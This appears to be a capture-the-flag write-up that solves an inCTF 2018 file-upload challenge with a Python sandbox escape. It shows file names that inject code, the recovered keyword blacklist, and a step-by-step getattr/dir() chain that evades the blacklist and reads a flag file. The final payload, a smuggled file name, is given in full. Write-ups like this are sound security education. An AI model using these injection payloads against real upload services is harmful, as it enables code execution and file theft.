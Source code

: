 # The Most Secure File Uploader

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/1.png)

54/306 = 18% of the teams solved this challenge.

## Reconnaissance
Here we need to figure out how the challenge works, and figure out what we can exploit.


![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/2.png)

Here we can see it's a file upload. File uploaders are often insecure, let's upload something.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/6.png)
![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/3.png)

We see that the URL say's it a php file, but the error message looks like python. This is probably just a trick to confuse you.

We know from this that it tries to do something with the filename, and we get a error. Let's upload something that does not end with a image extension (.jpg/.png etc).

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/4.png)


Okay, uploading something other than `*.png` we get an error. Here we try upload some different payloads and see what the output is.

`hej.vad.png` =>   Traceback (most recent call last): File "", line 1, in NameError: name 'hej' is not defined

`0.png` =>         File "", line 1 0.png ^ SyntaxError: invalid syntax

`AAAA).png` =>     File "", line 1 AAAA).png ^ SyntaxError: invalid syntax

`$flag.png`  =>    File "", line 1 .png ^ SyntaxError: invalid syntax

`__debug__.png` => Traceback (most recent call last): File "", line 1,
in AttributeError: 'bool' object has no attribute 'png'

`__debug__.__str__.png` => Traceback (most recent call last): File "", line 1, in AttributeError: 'method-wrapper' object has no attribute 'png'

`123456789[:-1].png` Traceback (most recent call last): File "", line 1, in TypeError: 'int' object has no attribute '__getitem__'

As you can see, when we did the CTF, we fell in the php trap and though the server was running php code. The more we tried, we noticed that it's definately python error messages.

And the breakthrough were when we added a # at the end to comment out the .png part as it seem to be failing on that line.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/5.png)


### Blacklist
As we try upload some known python names, like `__class__.png`

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/7.png)

...And there seem to be a blacklist.

Iterating over some known and `useful` python stuff we get the following blacklist:

```python
subprocesses|os|import|builtins|eval|locals|class|;|file
```

and the file must end with a .png.


## Python sandbox escape
From the reconnaissance phase we notice the challenge is a Python sandbox escape.
Usually the flag is hidden on the server in a .txt file, so our goal is to read a file.

```python
().__class__.__base__.__subclasses__()[40]("flag.txt").read()
```

Here is the line we want to execute, but from the reconnaissance phase we know that `__class__` and `__subclasses__` is blacklisted.
To circumvent this we need to figure out another way to run `__class__` and `__subclasses__`  without actually typing it.

```python
>>> dir([])[1]
'__class__'
```

Okay, we can now write the `__class__` without directly typing it to bypass the blacklist.

```python
>>> getattr((), dir([])[1])
<type 'tuple'>
```
This translates to `().__class__`.

Okay so next we want to append `__base__`.

```python
>>> getattr((), dir([])[1]).__base__
<type 'object'>
```
And now we want to append `__subclassses__`, but we know class is blacklisted so we have to bypass it somehow.

```python
>>> dir(().__class__.__base__.__class__)
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```
We've found the `__subclasses__`. Now we just have to write the same command without using class.

```python
>>> dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```

Great! Let's extract what we want:
```python
>>> dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34]
'__subclasses__'
```

If we combine what we have so far:
```python
getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])
<built-in method __subclasses__ of type object at 0x5610a5dd6980>
```

Adding () to call the `__subclasses__` function.

```python
>>> getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
>>> getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]
<type 'file'>
>>>
```
Let's combine our payload and upload it to get the flag.

```python
mv payload.png "print getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]('flag').read()#.png"
```


![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/8.png)
